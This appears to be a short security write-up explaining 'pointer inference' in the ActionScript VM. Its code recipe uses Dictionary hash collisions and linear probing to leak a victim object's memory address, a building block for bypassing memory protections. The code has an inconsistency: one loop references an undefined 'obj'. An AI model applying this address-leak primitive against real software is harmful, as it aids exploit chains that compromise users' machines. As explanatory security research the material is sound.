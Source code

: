 ### Attack Summary

***Pointer inference:*** Recovering the memory address of an internal object via "normal" (non-exploit) interactions with target software.

### Attacker Threat Model

The attacker has access to the VM of a dynamically typed language (ECMA|Java|Action)Script, Java, Python, etc. and can write a script to locate the memory address of a given object.

### Background

ActionScript interpreter represents internal objects using ***tagged pointers (atoms)***. The tag can be read to determine if it is stored by value or reference (string or object). The ActionScript dictionary exposes an associative map data structure to associate any ActionScript object with another. It is implemented as a hashtable that derives the hash from the key atom and stores the key and value atom together in the table.

### Recipe

```javascript
// First, create the Dictionaries
var even = new Dictionary();
var odd = new Dictionary();
// Now, fill the Dictionary objects with the integer atoms
var index;
for (index = 0; index < 8; index += 1) {
    even[index * 2] = true;
    odd[index * 2 + 1] = true;
}
// The victim object is added to both dictionaries
var victim = “AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA”;
even[victim] = true;
odd[victim] = true;
// The two integers before the victim
var curr, evenPrev, oddPrev;
for (curr in even) {
    if (curr == victim) { break; }
    evenPrev = curr;
}
for (curr in odd) {
    if (curr == obj) { break; }
    oddPrev = curr;
}
```

The two integers should differ by 17 due to linear probe on collision. In this case, the smaller value is from the dictionary that does not have the collision. If it is anything else, the probe wrapped and the larger value is from the dictionary that did not have the collision. Once the integer is found, it can be turned into an atom that is 8 smaller than the victim atom. So (x << 3 + 8) or ((x+1) << 3).

Data structure leaks can also involve: *internal ids (Python), hash functions (.NET or Java).*
